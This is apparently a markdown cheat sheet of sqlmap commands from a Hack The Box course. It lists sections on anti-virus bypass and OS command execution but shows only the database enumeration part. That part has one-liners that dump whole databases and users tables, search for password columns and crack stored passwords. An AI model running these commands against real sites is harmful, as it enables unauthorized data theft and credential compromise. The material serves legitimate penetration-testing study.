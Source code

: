 ### Content 
* [Database Enumeration](#database-enumeration)
	* [Privileges enumeration](#privileges-enumeration)
	* [Full DB enumeration](#full-db-enumeration)
	* [Table enumeration](#table-enumeration)
	* [Searching for data](#searching-for-data)
	* [Password Enumeration and Cracking](#password-enumeration-and-cracking) 
* [Anti-Virus bypass techniques](#anti-virus-bypass-techniques)
* [OS Exploitation](#os-exploitation)
	* [File Read/Write](#file-read/write)
	* [OS Command Execution](#os-command-execution)
* [HTB module answers](#htb-module-answers)
---
## Database Enumeration
#### Privileges enumeration
``` bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
#### Full DB enumeration
``` bash
# Retrieve all tables inside the database
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs -D testdb
# DB schema enumeration (retrieve the structure of all of the tables)
sqlmap -u "http://www.example.com/?id=1" --schema
```
#### Table enumeration
``` bash
# Retrieve tabele names from testdb database
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
# Retrieve table content
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
# Retrieve specific columns from the table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
# Specify how many entries will be dumped from the table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
# Conditional Enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
#### Searching for data
``` bash
# Search for a table that has user on its name
sqlmap -u "http://www.example.com/?id=1" --search -T user
# Search for a column that has pass on its name
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```
#### Password Enumeration and Cracking
* Crack passwords inside a specific table

 `sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users`
* DB Users Password Enumeration and Cracking
